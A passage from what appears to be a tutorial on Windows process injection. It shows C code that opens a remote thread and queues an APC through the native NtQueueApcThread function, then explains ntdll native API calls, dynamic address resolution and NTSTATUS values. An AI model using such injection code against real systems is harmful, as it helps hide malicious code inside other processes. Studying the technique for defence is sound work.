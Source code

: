 ```
	printf("[*] Attempting to open thread %d.\n", tId);
	HANDLE hThread = OpenThread(THREAD_SET_CONTEXT| THREAD_SUSPEND_RESUME, FALSE, tId);
	if (hThread == 0) {
		printf("[*] Error opening remote thread. Error: %d.\n", GetLastError());
		return -1;
	}
	
	NTSTATUS queueStatus = NtQueueApcThread_func(
		hThread,
		(PIO_APC_ROUTINE)remoteAddress,
		NULL, NULL, NULL
	);
	if (!NT_SUCCESS(queueStatus))
	{
		printf("[*] Error: NtMapViewOfSection_func on remote process failed with status %#x.\n", queueStatus);
		return 0;
	}
```

These functions are found within `ntdll.dll`, which contains functions used for the Windows native API and are typically not used exposed for use directly. User available processes such as OpenProcess are often wrappers for these undocumented functions (NtOpenProcess).
Because there is no export library for `ntdll.dll`, we have to dynamically resolve function addresses at runtime, similar to the technique used in the previous example. As of Windows 10, the SDK does release `ntdll.lib`, however I was not successful in linking this to my code. If anyone wants to give me any pointers, would appreciate that very much. 

There are a couple differences when calling native API functions. These use the NTAPI caling convention, which declares that the callee will clean the stack after execution (`__stdcall`). 

The second different is the return value of most Nt* functions. They return an `NTSTATUS` value. This is a 32 bit value that will indicate the result of function. 


